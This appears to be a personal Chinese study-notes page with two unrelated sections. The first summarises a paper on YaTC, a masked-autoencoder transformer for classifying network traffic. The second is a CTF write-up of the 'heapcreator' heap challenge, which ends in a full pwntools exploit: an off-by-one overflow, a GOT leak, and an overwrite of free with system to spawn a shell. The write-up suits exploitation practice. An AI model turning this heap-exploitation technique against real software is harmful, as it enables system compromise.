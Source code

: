 # 2024-1-28

## Yet Another Traffic Classifier: A Masked Autoencoder Based Traffic Transformer with Multi-Level Flow Representation

### 工作摘要

该论文设计了一个MFR矩阵，通过格式化的矩阵来表示原始流量的多层次信息，并开发了一种新的流量Transformer，以实现在各个层次上更有效的特征提取。为了减少对标记数据的依赖，该论文利用了大规模的未标记数据进行预训练，然后使用少量标记数据进行流量分类。

### 论文思路

预训练方法通过自监督学习显著降低了对标记训练数据的需求，对于流量分类通常将其视为某种语句利用NLP的方法进行预训练。但由于流量字节缺乏明显的高级语义，所以使用CV来提取流量字节的潜在含义更为合适。

但在CV中以往的与训练方法依赖于数据增强以形成成对的正样本和负样本，用于通过对比学习进行预训练。但流量数据的数据增强会严重破坏原始信息无法进行对比学习，而MAE方法则可以通过掩蔽用于中间训练的补丁来构造有效的流量数据预训练模型

![1](image/1.png)

#### MFR矩阵

该方法使用了一个MFR矩阵与格式化的二维矩阵来表示原始流量，首先根据IP地址、端口号和协议类型将原始流量拆分为流。为了避免引入干扰，该方法会删除流的以太网报头，将端口号设置为零，并将IP替换为随机地址，但保持其传播方向。最后，捕获流中的 $M$ 个相邻分组，并将其格式化为大小为 $H*W$ 的二维矩阵。该矩阵拥有以下三种特征

1. 字节层面：MFR流量矩阵中每一行仅包括一种类型的流量字节，分为报头行和有效载荷行
2. 分组层面：每个分组由包头矩阵和有效载荷矩阵表示，形成大小为 $H/M*W$ 的分组级矩阵
3. 流量层面：由于流是由有序的数据包组成的，因此M个相邻的数据包级矩阵在第二维中堆叠以形成最终的MFR矩阵。

该文将MFR矩阵设置为包含5个数据包的矩阵，总共40行，每行包含40个字节。每个数据包的报头由2个80字节的报头行表示，能够包含IP层报头（20字节）、TCP报头（20字节）或UDP报头（8字节）以及可选报头。为每个数据包的有效载荷分配6个有效载荷行，并在超过240字节时执行截断。如果有效字节数不足，则将用0字节填充。

#### Traffic Transformer

根据流量的特点，设计了由嵌入模块、数据包级注意力模块和流级注意力模块组成的Traffic Transformer，并利用MFR矩阵对流量进行有效分类。

##### 嵌入模块

MFR矩阵 $x∈R^{H \times W}$ 会被分成大小为 $P \times P$ 非重叠2D补丁， 数量为 $N=HW/P^2$ ,表示为 $x_p∈R^{N \times P^2}$。然后通过线性层将补丁映射到 $D$ 维向量作为补丁嵌入。为了保持在MFR中至关重要的位置信息，将位置嵌入 $E_{pos}$ 添加到补丁嵌入中作为业务编码器的输入。


$$
x_0 = [x^1_pE;x^2_pE;...;x_p^NE] + E_{pos}
$$

在本文中作者取 $D = 192，P = 2，N = 20*20 = 400$ 使一个补丁的所有元素都表示相同类型的原始字节，每个包矩阵包含一行报头补丁和三行有效载荷补丁。

##### 数据包级注意力模块

该模块使用了一种基于Vision Transformers的流量编码器

它由交替的多头自注意层（MSA）和前馈层组成。为了优先学习分组内的报头补丁或有效载荷补丁之间的依赖性，业务编码器仅在同一分组中的补丁之间而不是MFR矩阵中的所有补丁之间执行多头自注意。

MSA层允许数据包的补丁根据不同头 $Concat（head1，· · ·，headn）$ 的相关程度有效地相互交互，并且每个头由注意力函数计算：


$$
Q=x_lW^Q,K=x_lW^K,V=x_lW^V
\\
Attn(Q,K,V)=SOFTMAX(  \frac{QK^T}{\sqrt D_k})V
$$
其中$W^Q、W^K、W^V ∈ R^{D×D_k}$是可学习的参数。在这项工作中采用 $n = 16$ 平行注意头和 $L = 4$ 交替层。

##### 流级注意力模块

数据包级注意力模块输出了MFR矩阵 $x∈R^{H \times W}$ 中每个补丁的重要数据包级特征，为了进一步提取数据流上不同包的长距离关系依赖，该文中为了以更粗的粒度学习数据包间的关系采用了行池化（RP），它按行将数据包级注意力模块所输出的补丁的特征进行部分平均池化来生成行补丁。


$$
x_r=Pooling(x^{'}_p)
$$


每个分组包含1个报头行补丁和3个有效载荷行补丁，表示分组内的部分特征，将MFR矩阵中的所有行补丁输入到流量编码器中，MSA层捕获行补丁之间的流级信息。最终输出是一列行补丁特征$x_c ∈ R^{\sqrt{N}×D}$，这些行补丁特征进一步被执行列池化（CP）以获得整个MFR矩阵的最终表示 $x_{MFR} ∈ R^D$：


$$
x_{MFR}=Pooling(x_c)
$$


## Pwn



进入主函数之后是一个功能选取界面，分别是开辟空间，编辑空间，展示空间，释放空间。

![image-20230916122401722](image/2.png)

进入空间开品函数内部，这里一次会开辟两个空间，第一个是0x10大小的空间，分别存储开辟空间的大小和地址，接着正常开辟空间。

![image-20230916123948037](image/3.png)

进入编辑函数我们可以看见他会根据第一个创建空间中的信息进行空间编辑，并且写入的大小会造成**off by one**漏洞，我们可以多输入一个字节来修改空间的大小，我们可以开辟一个0x18大小的空间，这样溢出的字节就可以修改下一个控制空间的大小。这样我们就可以控制下一个控制空间，将其大小改为8，地址改为free的got表，进行输出和修改进行攻击

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh=remote("node4.buuoj.cn",25191)
elf=ELF('./heapcreator')

def create(length,value):
        sh.recvuntil("Your choice :")
        sh.sendline("1")
        sh.recvuntil("Size of Heap : ")
        sh.sendline(str(int(length)))
        sh.recvuntil("Content of heap:")
        sh.sendline(value)
def edit(index,value):
        sh.recvuntil("Your choice :")
        sh.sendline("2")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
        sh.recvuntil("Content of heap : ")
        sh.sendline(value)
def show(index):
        sh.recvuntil("Your choice :")
        sh.sendline("3")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
def delete(index):
    sh.recvuntil('Your choice :')
    sh.sendline('4')
    sh.recvuntil(b'Index :')
    sh.sendline(str(int(index)))

create(0x18,b'aaaa')
create(0x10,b'bbbb')
create(0x10,b'cccc')
create(0x10,b'/bin/sh')

edit(0,b'a'*0x18+b'\x81')
delete(1)

size = b'\x08'.ljust(8,b'\x00')
payload = b'd'*0x40+ size + p64(elf.got['free'])
create(0x70,payload)
show(2)
sh.recvuntil('Content : ')
free_addr = u64(sh.recvuntil('Done')[:-5].ljust(8,b'\x00'))
print(hex(free_addr))
libc=LibcSearcher("free",free_addr)
system_addr=free_addr+libc.dump("system")-libc.dump("free")

edit(2,p64(system_addr))
delete(3)
sh.interactive()
```

